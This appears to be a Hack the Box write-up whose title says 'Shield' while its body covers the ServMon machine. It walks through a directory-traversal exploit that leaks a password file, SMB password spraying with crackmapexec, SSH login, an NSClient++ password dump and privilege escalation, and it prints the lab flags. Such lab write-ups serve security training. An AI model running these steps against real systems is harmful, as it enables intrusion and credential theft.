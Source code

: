 +++
title = "Hack the Box: Shield"
date = 2023-02-05
description = "Hack the Box: Shield"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Shield

## Enumeration

### Nmap

```
# sudo nmap -sV -sC -O -nvv 10.10.10.184 -Pn

PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnC92+BCplDo38VDQIZzb7V3HN/OucvxF0VMDDoYShdUrpDUW6JcSR/Zr6cADbHy7eDLw2O+WW+M4SzH7kfpbTv3HvJ0z8iOsRs2nUrUint4CR/A2vYA9SFOk18FU0QUS0sByBIlemU0uiPxN+iRCcpFhZDj+eiVRF7o/XxNbExnhU/2n9MXwFS8XTYNeGqSLE1vV6KdpMfpJj/yey8gvEpDQTX5OQK+kkUHze3LXLyu/XVTKzfqUBMAP+IQ5F6ICWgaC1a+cx/D7C/aobCbqaXY+75t1mxbEMmm1Wv/42nVQxcT7tN2C3sds4VJkYgZKcBhsE0XdJcR9mTb1wWsg9
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMToH2eB7rzpMZuvElpHYko/TXSsOfG8EXWQxmC/T4PCaAmVRDgJWEFMHgpRilSAKoOBlS2RHWNpMJldTFbWSVo=
|   256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILbqSRVLRJFVNhD0W0C5xB7b3RoJZZKdM+jSGryFWOQa
80/tcp   open  http          syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|     :Saturday
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
```

Connect to tcp, cd /users/ find files there giving clues/tips.

[https://github.com/AleDiBen/NVMS1000-Exploit](https://github.com/AleDiBen/NVMS1000-Exploit "https://github.com/AleDiBen/NVMS1000-Exploit")
[https://docs.nsclient.org/](https://docs.nsclient.org/ "https://docs.nsclient.org/")

```
# python3 nvms.py 10.10.10.184 /users/Nathan/Desktop/Passwords.txt
[+] DT Attack Succeeded
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

Put those password in a file dans pass it in crackmapexec:

```
# crackmapexec smb 10.10.10.184 -u Nadine -p pass-servmon.txt
...
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
...
# crackmapexec smb 10.10.10.184 -u Nathan -p pass-servmon.txt
```

We can see we have Nadine has a read access to a share

```
# crackmapexec smb 10.10.10.184 -u Nadine -p L1k3B1gBut7s@W0rk --shares
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [+] Enumerated shares
SMB         10.10.10.184    445    SERVMON          Share           Permissions     Remark
SMB         10.10.10.184    445    SERVMON          -----           -----------     ------
SMB         10.10.10.184    445    SERVMON          ADMIN$                          Remote Admin
SMB         10.10.10.184    445    SERVMON          C$                              Default share
SMB         10.10.10.184    445    SERVMON          IPC$            READ            Remote IPC
```

Let’s try to SSH with her credentials:

```
# ssh Nadine@10.10.10.184
# cd Desktop
# type user.txt
34c11d0537a6c54eaedaf0e70fa41a21
```

And we get the user hash.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

NSClient++ is vulnerable to a PE: [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802 "https://www.exploit-db.com/exploits/46802").

`Type nsclient.ini` allow only localhost to access to the admin dashboard `allowed host = 127.0.0.1` let’s do a port forwarding to abuse that. Launch ssh service `ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184` and then open `https://127.0.0.1:8443`. C:\Users\Administrator\Desktop>type root.txt type root.txt 65b04c7b20598ff912c3dce1d317d579

[https://fdlucifer.github.io/2020-04-23-ServMon.html](https://fdlucifer.github.io/2020-04-23-ServMon.html "https://fdlucifer.github.io/2020-04-23-ServMon.html")
